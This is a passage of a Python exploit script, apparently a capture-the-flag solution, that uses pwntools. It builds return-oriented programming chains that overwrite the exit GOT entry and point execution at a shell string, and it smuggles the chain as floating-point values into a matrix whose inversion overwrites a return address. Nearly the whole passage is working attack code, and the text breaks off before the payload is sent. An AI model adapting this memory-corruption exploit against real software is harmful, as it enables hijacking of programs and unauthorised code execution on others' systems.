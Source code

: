 ```python
# chain0.raw(0)
# chain0.raw(poprsir15)
# chain0.raw(fini_array)
# chain0.raw(fini_array)
# chain0.raw(velf.symbols['read'])
# chain0.raw(velf.got['exit'])
# chain0.raw(velf.symbols['exit'])
# chain0.raw(main_addr)
# chain0.raw(0xdeadbeef)
# chain0.raw(poprdiret)
# chain0.raw(velf.got['exit'])
# chain0.raw(poprsir15)
# chain0.raw(8)
# chain0.raw(8)
# chain0.raw(read_data_addr)
# chain0.raw(poprdiret)
# chain0.raw(shaddr)
# chain0.raw(velf.symbols['exit'])
chain0.raw(main_addr)

# by using a second rop chain we don't have a problem with inverting
chain1 = ROP(velf)
chain1.raw(poprdiret)
chain1.raw(velf.got['exit'])
chain1.raw(read_data_addr)
chain1.raw(poprdiret)
chain1.raw(shaddr)
chain1.raw(velf.symbols['exit'])

log.info("rop chain0:\n" + chain0.dump())

# raw_input()


def exploit(chain):
    A = np.eye(N)
    Aflat = A.reshape(-1)

    log.info("exploiting with ropchain:\n" + chain.dump())
    rem.recvuntil(":")

    pl = chain.chain()
    log.info("rop payload:\n" + hexdump(pl))

    plf = struct.unpack('d' * (len(pl) / 8), pl)
    for i, f in enumerate(plf):
        log.info("setting {} to {}".format(retaddr_A_idx + i, f))
        Aflat[retaddr_A_idx + i] = f

    A = Aflat.reshape(N, N)
    log.info("Using matrix:\n" + str(A))
    Ai = np.linalg.inv(A)
    log.info("inverse:\n" + str(Ai))

    n, m = A.shape

    y = ["{}".format(x) for x in Ai.reshape(-1)]
    tldr = [s for s in y if len(s) > 20]
    if len(tldr) > 0:
        log.warning("uuuh there might be a strtod precision issue!\n{!r}"
                    .format(tldr))

    x = ",".join(y)
```